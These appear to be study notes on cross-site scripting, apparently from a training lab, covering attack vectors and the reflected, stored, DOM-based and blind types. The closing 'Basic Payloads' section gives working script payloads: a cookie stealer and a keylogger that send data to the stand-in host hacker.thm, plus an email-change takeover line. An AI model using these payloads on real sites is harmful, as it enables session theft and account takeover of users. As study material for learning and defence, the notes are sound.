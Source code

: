 				Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
<a/>

<!-- -->
				Reflected XSS
##### supplied data in an HTTP request is included in the webpage source without any validation.

Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### the payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information  
- Website Listings


<!-- -->

				Dom Based XSS		
##### JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				
				Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
-- Session Stealing
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

-- Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

-- Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

-- Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
